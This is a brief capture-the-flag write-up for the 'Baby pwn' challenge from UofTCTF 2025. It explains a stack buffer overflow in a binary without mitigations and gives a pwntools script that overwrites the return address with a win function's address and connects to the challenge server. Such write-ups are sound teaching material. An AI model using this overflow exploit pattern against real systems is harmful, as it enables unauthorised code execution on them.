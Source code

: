 ```yaml
---
title: Baby pwn
description: Here's a baby pwn challenge for you to try out. Can you get the flag?
categories: ["ctf", "UofTCTF 2025"]
tags: ["pwn"]
media_subpath: "/assets/posts/2025/uoftctf/baby-pwn"
---
```


This is a simple pwn challenge. We have no mitigations enabled, and a buffer overflow:

![](1.png)

We also have a win function:

![](2.png)

We just need to overwrite the return address with the address of the win function:

```py
from pwn import *

context.log_level = 'debug'

elf = ELF("./baby-pwn")

'''
io = gdb.debug("./baby-pwn", """
    c
""")
'''
io = remote("34.162.142.123", 5000)
io.clean()
io.sendline(flat(
    b"A" * (64 + 1 * 8),
    p64(elf.sym.secret)
))
io.interactive()
```
